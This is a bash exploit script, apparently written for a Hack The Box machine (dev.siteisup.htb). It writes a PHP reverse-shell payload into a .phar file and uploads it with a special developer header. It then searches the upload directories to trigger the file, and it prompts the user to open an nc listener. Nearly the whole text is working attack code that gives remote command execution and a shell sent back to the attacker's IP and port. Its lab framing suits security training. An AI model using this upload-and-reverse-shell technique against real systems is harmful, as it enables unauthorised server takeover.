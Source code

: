 ```bash
# display help panel
function help(){
  echo -e "\nDescription: reverse shell to user www-data"
  echo
  echo "[*] Use: $0 ip-address port"
  echo
}

# valid arguments
if [ $# -ne 2 ]; then
  help
  tput cnorm; exit
fi

# variables
ip=$1; port=$2
main_url='http://dev.siteisup.htb'
required_header='Special-Dev: only4dev'
file_name='rce.phar'
php_payload="<?php proc_close(proc_open(\"bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'\", array(), \$foo)); ?>" # payload to upload [*]

# create .phar file with payload
function create_file(){
  if [ ! -f $file_name ]; then
    echo "$php_payload" > $file_name
    echo "http://url.fake" >> $file_name # Interesting
  fi
}

# upload file to website
function upload_file(){
  curl -si -H "$required_header" -F file=@$file_name -F check=Check $main_url &>/dev/null & # 10 seconds to response
}

# make file request and get php response (RCE)
function execute_file(){
  uploads_url="$main_url/uploads"

  md5_directories=$(curl -si $uploads_url -H "$required_header" -L | html2text | awk '{print $2}' | grep ".*/$" | tr -d '/' | xargs)
  read -ra md5_directories_array <<< "$md5_directories" # IFS=' ' (default)

  for md5_dir in "${md5_directories_array[@]}"; do
    file_url="$uploads_url/$md5_dir/$file_name"

    echo -e "${green}\n[*]${reset} Searching file in ${cyan}$file_url${reset}:"

    file_response=$(curl -s $file_url -H "$required_header")
    if [[ "$file_response" == *"Not Found"* ]]; then
      echo -e "${yellow}\n\t[x] File not found.${reset}"; continue
    fi

    break
  done
}

# alert listening mode
function alert_listen_mode(){
  tput cnorm # return cursor
  echo -e "\nOpen port $port to receive the shell (g.e nc -lvnp $port)"
  echo "Press ENTER to continue"; read -s -n 1 key
```